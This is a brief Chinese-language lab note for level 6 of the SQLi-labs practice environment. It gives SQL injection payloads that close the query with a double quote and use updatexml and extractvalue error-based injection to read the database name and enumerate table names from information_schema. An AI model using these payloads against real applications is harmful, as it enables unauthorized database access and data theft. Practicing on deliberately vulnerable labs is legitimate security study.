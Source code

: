 # 第六关

双引号闭合

```
?id=1" and 1=2 --+  页面没显示
```

利用报错注入获取数据库

使用两个函数获取数据库名

```sql
?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)  --+   
```



```sql
?id=1" and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+   
```

获取表名

固定套路

```sql
?id=1" and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))    --+   
```

![image-20230830220408911](./SQLi_labs.assets/image-20230830220408911.png)

获取到可利用的表

```sql
?id=1" and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e))    --+ 
```
